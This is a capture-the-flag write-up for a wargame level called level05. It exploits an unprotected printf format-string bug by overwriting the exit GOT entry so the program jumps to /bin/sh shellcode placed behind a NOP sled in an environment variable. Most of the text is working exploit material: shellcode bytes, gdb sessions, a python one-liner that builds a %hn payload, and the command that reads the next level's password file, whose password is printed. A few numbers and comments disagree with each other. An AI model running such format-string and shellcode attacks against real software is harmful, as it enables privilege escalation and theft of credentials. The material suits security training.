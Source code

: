 # Level05

## Setup

We find a binary file at the root of the user **`level05`** named *`./level05`*.

```bash
scp -r -P 4242 level05@<vm_ip>:/home/users/level05/level05 .
```

### Hex-Rays

We used the Hex-Rays output on the [Dogbolt website](https://dogbolt.org/).

## Source

	char s[100];
	...
	fgets(s, 100, stdin);
	...
	printf(s);
	...
	exit(0);

Unprotected printf alert ! exit is called after, we will redirect exit to a malicious shellcode

## gdb
	> disas exit
	
	Dump of assembler code for function exit@plt:
	0x08048370 <+0>:	jmp    *0x80497e0
	0x08048376 <+6>:	push   $0x18
	0x0804837b <+11>:	jmp    0x8048330
	End of assembler dump.

We will modify exit got entry address content so that the program jumps into our malicious shell code:

`char sc[] = "\x6a\x0b" // push byte +0xb` \
`"\x58" // pop eax` \
`"\x99" // cdq` \
`"\x52" // push edx` \
`"\x68\x2f\x2f\x73\x68" // push dword 0x68732f2f` \
`"\x68\x2f\x62\x69\x6e" // push dword 0x6e69922f` \
`"\x89\xe3" // mov ebx, esp` \
`"\x31\xc9" // xor ecx, ecx` \
`"\xcd\x80"; // int 0x80`

## bash
	export SHELLCODE=$(python -c "print '\x90'*500 + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'")

We had a difficult time finding the exact entrypoint to our shell code so we added a nopsled before

## gdb
	> b main
	> r
	> x/200s environ
	...
	0xffffdd40:"SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\..."
	> x/200c 0xffffdd40
	0xffffdd40:	80 'P' 65  'A' 89  'Y' 76  'L' 79  'O' 65  'A' 68  'D' 48  '0'
	0xffffdd48: 53  '5' 61  '=' -112  '\220' -112  '\220' -112  '\220' -112  '\220' -112  '\220' -112  '\220'
	0xffffdd50: -112  '\220' -112  '\220' -112  '\220' -112  '\220' -112  '\220'	-112 '\220'	-112 '\220'	-112 '\220'

Let's take an address inside of our nopsled, 0xffffdd58

Now the issue is that ffffdd58 in decimal is a too big number, but thanks to the `h` printf modifier we will write `dd58` and then `ffff` instead of `ffffdd58` in one go: \
0xffffdd58 - 8 = ffffdd50 (minus 8 because we write our 2 addresses before) \
dd50 = 56656 \
ffff - dd58 = 8879	

## Payload
	> python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%56656c" + "%10$hn" + "%8871c" + "%11$hn"' > /tmp/payload05
	> cat /tmp/payload05 - | ./level05
	> cat /home/users/level06/.pass
	h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq